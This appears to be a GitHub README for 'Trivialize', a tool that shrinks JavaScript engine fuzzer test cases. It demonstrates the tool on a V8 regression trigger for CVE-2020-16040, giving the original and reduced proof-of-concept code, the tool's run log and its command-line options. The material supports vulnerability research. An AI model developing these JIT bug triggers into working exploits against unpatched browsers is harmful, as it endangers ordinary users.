 # Trivialize

If you have a complex proof-of-concept and want to simplify it, just run this against it.

This useful little tool is a byproduct of my exploration into javascript engine fuzzing. It uses
many of the same techniques that popular fuzzing tools utilise for corpus minimization, just to an
extreme degree.

Currently only supports V8, but I plan on adding support for both SpiderMonkey and JavascriptCore
in the future.

## Example

Take this rather complicated regression for CVE-2020-16040 (re-implemented in modern V8) which is
very likely fuzzer output.

```js
/* examples/cve-2020-16040/regression.js */

function jit_func(a, b) {
  var v921312 = 0xfffffffe;
  let v56971 = 0;  
  var v4951241 = [null, (() => {}), String, "string", v56971];
  let v129341 = [];
  v921312 = NaN;
  if (a != NaN) { 
      v921312 = (0xfffffffe)/2; 
  }
  if (typeof(b) == "string") { 
      v921312 = Math.sign(v921312); 
  }
  v56971 = 0xfffffffe/2 + 1 - Math.sign(v921312 -(-0x1)|6328);
  if (b) {
    v56971 = 0;
  }
  v129341 = new Array(Math.sign(0 - Math.sign(v56971)));
  v129341.shift();
  v4951241 = {};
  v129341.shift();
  v4951241.a = {'a': v129341};  
  for (let i = 0; i < 7; i++) {
    v129341[5] = 2855;
  }
  return v4951241;
}

/* `__NATIVE__` is used instead of `%` for parsing */
__NATIVE__PrepareFunctionForOptimization(jit_func);
jit_func(undefined, "KCGKEMDHOKLAAALLE").toString();
__NATIVE__OptimizeFunctionOnNextCall(jit_func);
jit_func(NaN, undefined).toString();
```

Running the tool against the above regression reduces its size (in terms of nodes
within its AST) by almost 70%, from 165 nodes at the start to only 52 nodes at the end.

```
$ ./trivialize.js --script examples/cve-2020-16040/regression.js --rename-variables

Trivialize v0.0.1 (c) Anvbis
https://github.com/anvbis/trivialize

trivialize: info: starting pass 1/?, 165 nodes at start
progress [========================================] 100% | ETA: 0s | 9/9
trivialize: info: 60 nodes at end, 63.64% node reduction

trivialize: info: starting pass 2/?, 60 nodes at start
progress [========================================] 100% | ETA: 0s | 9/9
trivialize: info: 52 nodes at end, 13.33% node reduction

trivialize: info: starting pass 3/?, 52 nodes at start
progress [========================================] 100% | ETA: 0s | 9/9
trivialize: info: 52 nodes at end, 0.00% node reduction

trivialize: info: finished, total node reduction of 68.48%
```

Resulting in a much simpler proof-of-concept (and TurboFan graph, should you decide to
investigate it further).

```js
function jit_func(arg_1, arg_2) {
    var var_0 = NaN;
    if (arg_1) {
        var_0 = 4294967294;
    }
    if (typeof arg_2) {
        var_0 = Math.sign(4294967294);
    }
    v56971 = var_0 - -1 | 6328;
}
%PrepareFunctionForOptimization(jit_func);
jit_func();
%OptimizeFunctionOnNextCall(jit_func);
jit_func();
```

## Usage

```
Usage: ./trivialize.js --script <script>

Options:
  --help              Show help                                        [boolean]
  --version           Show version number                              [boolean]
  --script            Target script to reduce                [string] [required]
  --rename-variables  Attempt to rename variables                      [boolean]
  --executable        Path to d8 executable       [string] [default: "./bin/d8"]
  --output            Output script to file                             [string]
```

## Installation

Coming soon...